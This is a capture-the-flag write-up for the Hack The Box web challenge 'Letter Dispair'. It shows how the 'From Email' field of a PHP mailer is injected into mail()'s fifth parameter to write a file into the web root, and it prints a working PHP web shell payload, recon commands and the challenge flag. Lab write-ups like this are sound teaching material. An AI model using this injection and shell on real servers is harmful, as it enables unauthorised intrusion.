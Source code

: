 # Writeup "Letter Dispair"

## Quick Info

<table>
   <tr><td><b>site</b></td><td>Hack the box</td></tr>
   <tr><td><b>url</b></td><td>https://app.hackthebox.com/challenges/letter-dispair</td></tr>
   <tr><td><b>discussion</b></td><td>https://forum.hackthebox.com/t/official-letter-dispair-discussion</td></tr>
   <tr><td><b>type</b></td><td>challenge/web</td></tr>
   <tr><td><b>difficulty&nbsp;&nbsp;&nbsp;</b></td><td>easy</td></tr>
   <tr><td><b>startdate</b></td><td>2022-07-31</td></tr>
   <tr><td><b>enddate</b></td><td>2022-08-03</td></tr>
</table>

## Description

> A high-profile political individual was a victim of a spear-phishing attack. The email came from a legitimate government entity in a nation we don't have jurisdiction. However, we have traced the originating mail to a government webserver. Further enumeration revealed an open directory index containing a PHP mailer script we think was used to send the email. We need access to the server to read the logs and find out the actual perpetrator. Can you help?

## Description

We receive an IP and port to a server. When we access the server using a web browser, we see a directory listing with three files:

<p align="center">
   <img src="includes/letter-dispair-01.png" />
</p>

`mailer.php` displays a form for sending e-mails:

<p align="center">
   <img src="includes/letter-dispair-02.png" />
</p>

`mailer.zip` contains a copy of `mailer.php`, which allows us to analyse the source code.

A quick Google search tells us that PHP's `mail()`[^1] function allows remote code execution if the fifth parameter can be influenced by the user[^2]. Checking the source code reveals that the code is vulnerable. Whatever we put in the "From Email" field will be used as a parameter.

Following an article describing how to exploit the vulnerability[^3], we enter the following string in the "From Email" field to create a publicly-accessible PHP file whose contents we can manipulate:

```
relations@moi.gov.htb -X/var/www/html/rce.php
```

Our payload will be a makeshift PHP shell, which we enter into the "Subject" field. The following line would be sufficient:

```
&lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
```

However, this is not very comfortable. We therefore improve the code to include a text field for entering commands and which formats the output:

```
&lt;hr /&gt;
&lt;form action=&quot;rce.php&quot; method=&quot;get&quot;&gt;
  &lt;input type=&quot;text&quot; 
    id=&quot;cmd&quot; 
    name=&quot;cmd&quot; 
    value=&#039;&lt;?php print($_GET[&quot;cmd&quot;]); ?&gt;&#039; 
    autofocus 
    onfocus=&quot;var temp_value=this.value; 
      this.value=&#039;&#039;; 
      this.value=temp_value&quot; /&gt;
&lt;/form&gt;
&lt;hr /&gt;
&lt;pre&gt;
  &lt;?php system($_GET[&quot;cmd&quot;]); ?&gt;
&lt;/pre&gt;
&lt;hr /&gt;
```

After hitting the "Start Delivery" button, we reload the directory listing in order to verify that the file was created correctly. If no file is visible, we have to try different paths. In this case we are lucky on the first try:

<p align="center">
   <img src="includes/letter-dispair-03.png" />
</p>

We can now open our PHP shell and start looking for the flag. Using the following commands, we are successful:

```
ls -la
whoami
find / -name *flag*
cat /flag.txt
```

<p align="center">
   <img src="includes/letter-dispair-04.png" />
</p>

```
HTB{4_l3tt3r_0f_h0p3_c0nqu3r1ng_d1sp4ir!}
```

### Sources

[^1]: https://www.php.net/manual/de/function.mail.php
[^2]: https://blog.sonarsource.com/why-mail-is-dangerous-in-php/
[^3]: https://www.saotn.org/exploit-phps-mail-get-remote-code-execution
